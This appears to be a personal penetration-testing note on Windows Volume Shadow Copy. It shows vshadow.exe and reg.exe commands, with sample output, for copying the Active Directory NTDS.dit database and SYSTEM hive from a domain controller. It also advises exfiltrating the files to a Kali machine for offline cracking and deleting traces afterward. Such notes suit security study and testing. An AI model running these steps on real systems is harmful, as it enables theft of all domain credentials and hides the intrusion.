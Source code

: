 public:: true
alias:: VSS, Volume Shadow Service

- [Shadow Copy](https://en.wikipedia.org/wiki/Shadow_Copy) is a Microsoft backup technology that allows creation of snapshots of files or entire volumes, even when they are in use.
- [`vshadow.exe`](https://learn.microsoft.com/en-us/windows/win32/vss/vshadow-tool-and-sample) (part of the [Windows SDK](https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/)) is a utility that allows administrators to create and manage snapshots. It can be abused to extract the *Active Directory Database* [[NTDS.dit]] and the [SYSTEM hive](((65a94684-cdb5-4d91-b092-4044b38ce47e))) from the filesystem.
- To extract the *NTDS.dit* and the *SYSTEM hive* from a DC we can take the following steps in an elevated prompt
	- Create a shadow copy of the whole `C:` partition
	  ```cmd
	  C:\Tools> vshadow.exe -nw -p  C:
	  ```
		- `-nw` [disable writers](https://learn.microsoft.com/en-us/windows/win32/vss/shadow-copy-creation-details#shadow-copies-without-writer-participation) to speed up backup creation.
		- `-p` to store the copy on disk.
	- Take note of the newly created shadow copy device name
	  ```cmd
	  [...]
	  * SNAPSHOT ID = {c37217ab-e1c4-4245-9dfe-c81078180ae5} ...
	     - Shadow copy Set: {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5}
	     - Original count of shadow copies = 1
	     - Original Volume name: \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\]
	     - Creation Time: 9/19/2022 4:31:51 AM
	     - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
	     - Originating machine: DC1.corp.com
	     - Service machine: DC1.corp.com
	     - Not Exposed
	     - Provider id: {b5946137-7b9f-4925-af80-51abd60b20d5}
	     - Attributes:  Auto_Release No_Writers Differential
	  
	  
	  Snapshot creation done.
	  ```
		- In this case is `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2`.
	- Extract the *NTDS.dit* file from the shadow copy
	  ```cmd
	  C:\Tools> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
	  ```
	- Extract the SYSTEM hive from the windows registry
	  ```cmd
	  C:\> reg.exe save hklm\system c:\system.bak
	  ```
	- Exfiltrate the two `.bak` files to your Kali machine to crack them offline
	- Remove tracks
		- TODO delete the shadow copy
		  background-color:: pink
		- TODO delete the two `.bak` files
		  background-color:: pink
- You can now proceed to decrypt the NTDS.dit file offline
	- {{embed ((65a95382-e8f2-483f-8991-4b8bc67bcb7a))}}